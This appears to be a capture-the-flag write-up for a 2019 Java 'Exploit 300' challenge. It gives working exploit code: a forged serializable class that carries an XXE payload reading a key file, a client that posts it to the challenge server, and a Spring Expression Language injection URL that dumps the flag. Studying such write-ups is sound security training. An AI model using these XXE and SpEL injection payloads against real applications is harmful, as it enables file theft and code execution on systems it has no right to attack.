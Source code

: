 # Exploit 300 (pwn, 300p, ? solved)

In the challenge we get address of a Java webapplication and [war file](blueprint.war).
The challenge is a bit similar to the one in previous yeat, however this time the attack vector is not unsafe Java deserialization.

Once we decompile the code in IntelliJ we notice that there are 2 endpoints available.
One endpoint is `/jail` and another is `/office`.

Office endpoint performs some kind of authentication and then uses some of our input inside a piece of Spring Expression Language snippet.
This is very dangerous, since it often leads to RCE, but here we first need to authenticate, and this requires us to know the contents of `/TMCTF2019/key` file.

In order to get it, we need the other endpoint - `/jail`.
This endpoint is much simpler, it does only:

```java
ServletInputStream is = request.getInputStream();
CustomOIS ois = new CustomOIS(is);
Person person = (Person)ois.readObject();
ois.close();
response.getWriter().append("Sorry " + person.name + ". I cannot let you have the Flag!.");
```

Where `CustomOIS` allows only to deserialize objects of type `com.trendmicro.Person`.
If we look closely  how those objects are deserialized, we can see:


```java
int paramInt = aInputStream.readInt();
byte[] arrayOfByte = new byte[paramInt];
aInputStream.read(arrayOfByte);
ByteArrayInputStream localByteArrayInputStream = new ByteArrayInputStream(arrayOfByte);
DocumentBuilderFactory localDocumentBuilderFactory = DocumentBuilderFactory.newInstance();
localDocumentBuilderFactory.setNamespaceAware(true);
DocumentBuilder localDocumentBuilder = localDocumentBuilderFactory.newDocumentBuilder();
Document localDocument = localDocumentBuilder.parse(localByteArrayInputStream);
NodeList nodeList = localDocument.getElementsByTagName("tag");
Node node = nodeList.item(0);
this.name = node.getTextContent();
```

It reads the size of the array, and then bytes array, which is later treated as XML document and parsed.
In this XML the deserializer takes first `tag` node and collects text content of this node to use as `name` of the Person.
So xml structure like:

```xml
<tag>person name</tag>
```

There are 2 important things to understand here:

1. Java recognizes classes for deserialization based on their package+class name and some random `serialVersionID`. The latter is important to make sure we don't accidentally deserialize object with the same class name, or for example `old version` of some object. But since we have the original `Person` class and `serialVersionID` is set there, we can make our own class with the same value, and fool the server to deserialize such object for us.
2. Input we provide will be parsed as XML, which means there might be a possibility to use for example XXE attack.

This is exactly what we do here, we created our own `Person` class:

```java
public class Person implements Serializable {
    private static final long serialVersionUID = -559038737L;
    public String name;

    private void writeObject(java.io.ObjectOutputStream out) throws IOException {
        String payload = "<?xml version=\"1.0\"?><!DOCTYPE tag [<!ENTITY test SYSTEM 'file:///TMCTF2019/key'>]><tag>&test;</tag>";
        out.writeInt(payload.length());
        out.write(payload.getBytes());
    }
}
```

This class will get serialized the same way as Person class in the challenge expects for later deserialization.
Now we can launch it:

```java
public static void stage1() throws IOException {
    Person p = new Person();
    ByteArrayOutputStream out = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(out);
    oos.writeObject(p);
    String host = "http://flagmarshal.xyz/jail";
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    try {
        RestTemplate restTemplate = new RestTemplate();
        byte[] yourBytes = out.toByteArray();
        HttpEntity<byte[]> entity = new HttpEntity<>(yourBytes);
        ResponseEntity<String> response = restTemplate.postForEntity(host, entity, String.class);
        System.out.println(response);
        System.out.println(response.getStatusCode());
        System.out.println(response.getBody());
    } catch (HttpServerErrorException ex) {
        System.out.println(ex.getResponseBodyAsString());
    } finally {
        try {
            bos.close();
        } catch (IOException ex) {
        }
    }
}
```

And from this we get the key: `Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain`

Now we can proceed to the second stage.
The code we're attacking is:

```java
String nametag = request.getParameter("nametag");
String keyParam = request.getParameter("key");
String keyFileLocation = "/TMCTF2019/key";
String key = readFile(keyFileLocation, StandardCharsets.UTF_8);
if (key.contentEquals(keyParam)) {
    ExpressionParser parser = new SpelExpressionParser();
    String expString = "'" + nametag + "' == 'Marshal'";
    Expression exp = parser.parseExpression(expString);
    Boolean isMarshal = (Boolean)exp.getValue();
    if (isMarshal) {
        response.getWriter().append("Welcome Marsal");
    } else {
        response.getWriter().append("I am sorry but you cannot see the Marshal");
    }
} else {
    response.getWriter().append("Did you forget your keys Marshal?");
}
```

We need to:

- Send request with key=`Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain`
- Provide parameter `nametag` which will be placed into expression escaped by `'`.

We can easily put `'` inside `nametag` to escape the string, and evaluate any code we want.
We still need to keep the type proper, so we decided to pass:

`'.isEmpty() || T(com.trendmicro.jail.Flag).getFlag() || '`

So in the application it will become:

`''.isEmpty() && T(com.trendmicro.jail.Flag).getFlag() && '' == 'Marshal'`

It's a proper boolean expression and it will dump the flag for us, because the `getFlag` thrown an exception.
We need to encode `&` as `%26` in order to be able to pass it into the url, and if we go to: `http://flagmarshal.xyz/Office?nametag='.isEmpty()%26%26T(com.trendmicro.jail.Flag).getFlag()%26%26'&&key=Fo0lMe0nce5hameOnUFoo1MeUCantGetF0oledAgain`

We can see the flag in the stacktrace: `java.lang.Exception: TMCTF{F0OlLM3TwIcE1Th@Tz!N1C3}`
